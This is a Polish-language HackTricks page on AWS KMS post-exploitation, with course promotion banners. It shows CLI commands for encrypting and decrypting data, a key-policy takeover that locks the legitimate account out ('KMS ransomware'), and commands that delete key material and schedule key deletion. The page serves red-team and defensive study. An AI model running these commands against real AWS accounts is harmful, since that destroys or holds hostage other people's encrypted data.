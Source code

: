 # AWS - KMS Post Exploitation

{% hint style="success" %}
Ucz się i ćwicz AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Ucz się i ćwicz GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wspieraj HackTricks</summary>

* Sprawdź [**plany subskrypcji**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

## KMS

Więcej informacji znajdziesz tutaj:

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Szyfrowanie/Odszyfrowywanie informacji

* Używając klucza **symetrycznego**
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* Używanie klucza **asymetrycznego**:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
{% hint style="warning" %}
Jeśli otrzymujesz błąd 'An error occurred (InvalidCiphertextException) when calling the Decrypt operation:' podczas próby wykonania kms decrypt, spróbuj użyć **`--ciphertext-blob file://`** zamiast **`fileb://`**.

Użycie **`file://`** daje wygodę korzystania z plików zapisanych w preferowanym kodowaniu podczas korzystania z CLI.
W wersjach 1.6.3 i wyższych CLI, masz dostęp do innego sposobu przekazywania zawartości pliku do CLI, **`fileb://`**. Działa podobnie do **`file://`**, ale zamiast odczytywać zawartość pliku jako tekst, jest ona odczytywana jako binarna.

W większości przypadków **`file://`** zaspokoi Twoje potrzeby przekazywania zawartości pliku jako wejścia. Jednakże, są przypadki, w których **`fileb://`** musi być użyte do przekazania zawartości pliku jako binarnej, a nie jako tekstowej.
Przeczytaj więcej na AWS tutaj: [AWS Blog - Best Practice for Local File Parameters](https://aws.amazon.com/blogs/developer/best-practices-for-local-file-parameters/)
{% endhint %}

### KMS Ransomware

Atakujący z uprzywilejowanym dostępem do KMS może zmodyfikować politykę KMS kluczy i **przyznać swojemu kontu dostęp do nich**, usuwając dostęp przyznany legalnemu kontu.

Wówczas użytkownicy legalnego konta nie będą mogli uzyskać dostępu do żadnych informacji z żadnej usługi, która została zaszyfrowana tymi kluczami, tworząc łatwe, ale skuteczne ransomware na koncie.

{% hint style="warning" %}
Zauważ, że **klucze zarządzane przez AWS nie są dotknięte** tym atakiem, tylko **klucze zarządzane przez klienta**.

Zwróć również uwagę na konieczność użycia parametru **`--bypass-policy-lockout-safety-check`** (brak tej opcji w konsoli webowej sprawia, że ten atak jest możliwy tylko z CLI).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Zauważ, że jeśli zmienisz tę politykę i przyznasz dostęp tylko zewnętrznemu kontu, a następnie z tego zewnętrznego konta spróbujesz ustawić nową politykę, aby **przywrócić dostęp do oryginalnego konta, nie będziesz w stanie**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Ogólny KMS Ransomware

#### Globalny KMS Ransomware

Istnieje inny sposób przeprowadzenia globalnego KMS Ransomware, który obejmuje następujące kroki:

* Utwórz nowy **klucz z materiałem kluczowym** zaimportowanym przez atakującego
* **Ponownie zaszyfruj starsze dane** zaszyfrowane poprzednią wersją nowym kluczem.
* **Usuń klucz KMS**
* Teraz tylko atakujący, który posiada oryginalny materiał kluczowy, będzie w stanie odszyfrować zaszyfrowane dane

### Niszczenie kluczy
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
Zauważ, że AWS teraz **zapobiega wykonywaniu poprzednich działań z konta krzyżowego:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Ucz się i ćwicz AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Ucz się i ćwicz GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wspieraj HackTricks</summary>

* Sprawdź [**plany subskrypcji**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
